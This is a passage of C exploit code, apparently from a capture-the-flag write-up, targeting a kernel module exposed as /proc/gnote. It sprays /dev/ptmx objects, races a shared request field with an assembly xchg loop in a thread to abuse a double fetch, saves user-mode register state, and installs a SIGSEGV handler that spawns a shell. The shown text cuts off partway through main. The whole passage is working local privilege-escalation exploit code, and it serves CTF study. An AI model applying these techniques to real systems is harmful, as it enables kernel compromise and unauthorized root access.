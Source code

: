 ### gnote

```c=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
#include <syscall.h>
#include <string.h>
#include <pthread.h>
#include <sys/mman.h>
#include <signal.h>
struct requests{
        uint32_t cmd;
        uint32_t val;
};
struct requests Req;
uint32_t EEE = 0x40100000;
void* job(void* x){


        __asm__("mov eax,%1\n"
                "LOL: xchg eax,[%0]\n"
                "jmp LOL\n"
                ::"r"(&Req.cmd),"r"(EEE):"rax","memory");
}
void get_shell(int sig){
        system("sh");
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

int main(){
        int tmp;
        signal(SIGSEGV,get_shell);
        save_status();
        char buf[0x300];
        int pfd[0x100];
        for(int i=0;i<0x100;i++)
                pfd[i] = open("/dev/ptmx",O_RDWR);
        for(int i=0;i<0x100;i++)
                close(pfd[i]);


        int fd = open("/proc/gnote",O_RDWR);
        Req.cmd = 1;
        Req.val = 0x2c0;
        write(fd,&Req,sizeof(Req));
        Req.cmd = 5;
        Req.val = 0;
        memset(buf,0,sizeof(buf));
        write(fd,&Req,sizeof(Req));
        write(fd,&Req,sizeof(Req));
```